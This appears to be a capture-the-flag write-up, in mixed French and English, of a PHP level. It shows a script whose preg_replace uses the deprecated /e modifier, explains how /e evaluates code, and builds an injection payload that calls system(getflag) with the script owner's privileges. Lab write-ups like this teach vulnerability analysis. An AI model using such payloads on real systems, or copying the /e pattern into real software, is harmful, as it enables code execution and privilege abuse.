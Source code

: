 1. Ls dans le home, presence d'un script php et d'un executable qui l'appelle

ce script a les permission de flag05, donc on veut injecter "getflag > car/tmp/flag06" dedans

#!/usr/bin/php
<?php
function y($m) { 
    $m = preg_replace("/\./", " x ", $m); 
    $m = preg_replace("/@/", " y", $m); 
    return $m; 
}

function x($y, $z) { 
    $a = file_get_contents($y); 
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
    $a = preg_replace("/\[/", "(", $a); 
    $a = preg_replace("/\]/", ")", $a); 
    return $a; 
}

$r = x($argv[1], $argv[2]); 
print $r;
?>


----

y function : 
replaces all [ with ( and ] with )

x function : 
Reads the contents of a file given by $y (the first CLI argument).
Old PHP feature: The /e modifier in preg_replace evaluates the replacement string as PHP code. This is deprecated and removed in PHP 7 for security reasons.
It looks for [x something] in the file and replaces it with the result of calling y("something").


2. The goal here is to exploit the /e code execution to make a call to the getflag command using the system function : system(getflag)


3. In order to execute this command, we need to embed it inside a code block, and inside this code block use a variable call to trigger an error that will display the flag

{${system(getflag)}}

4. we need to embed this exploitation inside the matching pattern search in the preg replace function so it gets matched and executed : 

[x {${system(getflag)}}]
